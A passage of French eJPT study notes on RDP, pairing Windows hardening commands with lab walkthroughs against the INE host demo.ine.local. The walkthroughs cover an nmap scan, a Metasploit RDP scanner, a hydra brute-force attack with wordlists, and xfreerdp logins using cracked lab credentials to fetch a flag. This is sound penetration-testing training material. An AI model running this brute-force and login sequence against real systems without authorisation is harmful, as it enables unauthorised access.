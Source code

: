 ### Sécurisation RDP
```cmd
# Changer port RDP (Registry)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber /t REG_DWORD /d 13389

# Activer authentification au niveau réseau
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 1

# Limiter utilisateurs RDP
net localgroup "Remote Desktop Users" /add username
```

---

## 🎯 8. Cas d'usage spécifiques eJPT

### Scénario 1: RDP port non-standard
```bash
# 1. Découverte port RDP alternatif
nmap -sV demo.ine.local
# Port 3333 trouvé avec service inconnu

# 2. Identification RDP
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS demo.ine.local
set RPORT 3333
exploit

# 3. Brute force credentials
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
      -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
      rdp://demo.ine.local -s 3333

# 4. Connexion RDP
xfreerdp /u:administrator /p:qwertyuiop /v:demo.ine.local:3333 /cert-ignore

# 5. Recherche flag via GUI
# My Computer → C:\ → flag.txt
```

### Scénario 2: Multiples credentials RDP
```bash
# Si plusieurs credentials trouvés
# administrator:qwertyuiop
# guest:(vide)
# user:password
# backup:backup123

# Tester chaque compte
xfreerdp /u:administrator /p:qwertyuiop /v:demo.ine.local:3333
xfreerdp /u:guest /p: /v:demo.ine.local:3333
xfreerdp /u:user /p:password /v:demo.ine.local:3333

# Choisir compte avec plus de privilèges (Administrator)
```
